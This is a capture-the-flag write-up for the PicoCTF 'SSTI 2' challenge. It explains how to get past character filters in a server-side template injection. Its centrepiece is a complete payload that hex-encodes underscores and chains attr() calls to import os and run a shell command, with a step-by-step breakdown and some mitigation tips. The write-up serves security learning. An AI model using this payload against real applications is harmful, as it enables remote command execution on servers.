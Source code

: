 # PicoCTF - SSTI 2 Writeup

## Challenge Description
This challenge involves Server-Side Template Injection (SSTI) with character filters that block common SSTI payloads.

**Category:** Web Exploitation  
**Difficulty:** Medium  

## Initial Analysis

![Challenge Description](screenshots/challenge-description.png)

The challenge implements filters that block certain characters commonly used in SSTI attacks:
- `.` (dot notation)
- `[]` (bracket notation)  
- `_` (underscore characters)

This makes standard SSTI payloads ineffective, requiring us to find alternative methods to bypass these filters.

## Reconnaissance

![Initial Recon](screenshots/initial-recon.png)
![filter Recon](screenshots/initial-recon-filters.png)
First, we need to identify:
1. The template engine being used
2. What input fields are vulnerable
3. How the filters are implemented

## Payload Development

Since standard SSTI payloads are blocked, we need to use hex encoding to bypass the character filters.

### Filter Bypass Technique

The key insight is using hex encoding (`\x5f`) to represent the underscore character `_`:
- `_` becomes `\x5f`
- This allows us to access Python's special methods like `__init__`, `__globals__`, etc.

### Payload Breakdown

Our successful payload uses the `attr()` filter to access object attributes:

```python
{{ self|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cat flag")|attr("read")() }}
```

Breaking this down step by step:

1. `self` - References the current template context
2. `|attr("\x5f\x5finit\x5f\x5f")` - Accesses `__init__` method (hex encoded)
3. `|attr("\x5f\x5fglobals\x5f\x5f")` - Accesses `__globals__` dictionary
4. `|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")` - Gets `__builtins__` module
5. `|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")` - Imports the `os` module
6. `|attr("popen")("cat flag")` - Executes `cat flag` command
7. `|attr("read")()` - Reads the command output

### Equivalent Python Command

The payload is equivalent to this Python code:
```python
import os
result = os.popen("cat flag").read()
print(result)
```

## Exploitation

![Payload Testing](screenshots/payload-testing.png)

1. Inject the payload into the vulnerable input field
2. The server processes the template with our malicious input
3. The hex-encoded underscores bypass the character filter
4. The payload executes system commands through the `os` module

## Flag Capture

![Flag Capture](screenshots/flag-capture.png)

After injecting our payload, we successfully retrieve the flag:

**Flag:** `[FLAG_WILL_BE_SHOWN_HERE]`

## Key Takeaways

1. **Character Encoding:** Hex encoding can bypass character-based filters
2. **Alternative Access Methods:** Using `attr()` filter instead of dot notation
3. **Filter Evasion:** Understanding how filters work helps in crafting bypass techniques
4. **SSTI Methodology:** Always enumerate available objects and methods in the template context

## Mitigation

To prevent this type of attack:
1. Implement proper input validation and sanitization
2. Use whitelist-based filtering instead of blacklist
3. Avoid user input in template contexts
4. Use templating engines with better security defaults
5. Implement Content Security Policy (CSP)

## Tools Used

- Web browser for testing
- Burp Suite (optional) for request manipulation
- Python for payload development

---
*Challenge completed by: DJILI SAMIR*  
*Date: June 7, 2025*
